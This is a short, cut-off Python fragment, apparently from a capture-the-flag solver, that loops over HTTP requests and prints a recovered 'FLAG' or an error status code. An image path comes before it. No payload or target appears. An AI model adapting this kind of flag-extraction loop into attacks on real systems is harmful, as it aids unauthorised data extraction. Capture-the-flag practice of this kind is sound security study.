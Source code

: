 ```python
          else:
            flag = payload
            print(f'FLAG : {flag}')
            exit()
          print(f'FLAG : {flag}')
          loop_iter = 0
          break
      else:
          print(f'[-] Error : {rqst.status_code}')
    loop_iter += 1
```
